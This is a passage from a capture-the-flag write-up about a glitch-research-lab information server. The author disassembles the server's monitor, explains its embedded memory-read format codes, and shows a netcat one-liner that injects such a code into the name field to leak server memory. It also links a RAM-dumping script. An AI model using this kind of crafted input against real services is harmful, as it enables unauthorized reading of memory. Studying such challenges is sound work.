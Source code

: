 However, this seems to be a red herring, as the actual display name does not change beyond the 15 allowed characters. Additionally, no matter how many characters
you make your name, this never results in corruption of the canary beyond the first byte. 

At this point, I went back to disassembling the monitor, in hopes of finding something I missed. And indeed, there is a very crucial thing about how the monitor
prints the registers that I did not notice before. Below is the string that is passed to `PrintStr` when printing the machine registers:

```
0000:1B20 | 42 52 45 41  4B 20 49 4E  54 4F 20 4D  4F 4E 49 54 | BREAK INTO MONIT
0000:1B30 | 4F 52 20 41  54 20 24 F0  C0 FB 20 2A  2A 2A 0A 52 | OR AT $ðÀû ***.R
0000:1B40 | 30 3D 24 F0  B6 FB 20 52  31 3D 24 F0  B8 FB 20 52 | 0=$ð¶û R1=$ð¸û R
0000:1B50 | 32 3D 24 F0  BA FB 20 52  33 3D 24 F0  BC FB 0A 53 | 2=$ðºû R3=$ð¼û.S
0000:1B60 | 50 3D 24 F0  BE FB 20 5B  F1 C2 FB F1  C3 FB F1 C4 | P=$ð¾û [ñÂûñÃûñÄ
0000:1B70 | FB F1 C5 FB  F1 C6 FB F1  C7 FB F1 C8  FB F1 C9 FB | ûñÅûñÆûñÇûñÈûñÉû
0000:1B80 | F1 CA FB F1  CB FB F1 CC  FB F1 CD FB  5D 0A 00    | ñÊûñËûñÌûñÍû].. 
```

This string is **not** modified before printing. How come the register values are printed correctly, just by calling `PrintStr`, but without any prior 
pre-processing by the monitor? Notice how after the register strings there's special 3-byte sequences; for example, printing `R0=` is followed by `F0 B6 FB`.
This sequence is actually a read memory format string! If we search the disassembly of the GRLTS02 monitor:

```nasm
; trap instruction entrypoint
$F37E:    A6            push sp
$F37F:    BC B6 FB      mov [$FBB6], r0
$F382:    BD B8 FB      mov [$FBB8], r1
$F385:    BE BA FB      mov [$FBBA], r2
$F388:    BF BC FB      mov [$FBBC], r3
$F38B:    94            pop r0
$F38C:    BC BE FB      mov [$FBBE], r0
```

When entering the monitor (trap instruction execution), all of the registers are saved under predefined addresses, which are then used as part of the format
string to print the register values, without having to modify the string at all! The `F0` format is used to read a 16-bit value little-endian, and `F1` can 
be used to read a single byte from memory (this is how the stack is dumped!). Does this format string work under GRLINFSRV's name printing, as well?

```
$ echo -e "\xf0\x00\xfe" | nc fools2023.online 13339 
Welcome to Glitch Research Lab Information Server (GRLINFSRV)
Enter your name for our records (max 15 characters):
-----

Welcome, 81D7
!
```

The answer is yes! Using this, we can now dump out the entire contents of the monitor memory from GRLINFSRV. You can find the dumper here: https://github.com/Muzuwi/fools23/src/grlinfsrv_ram_dumper.py
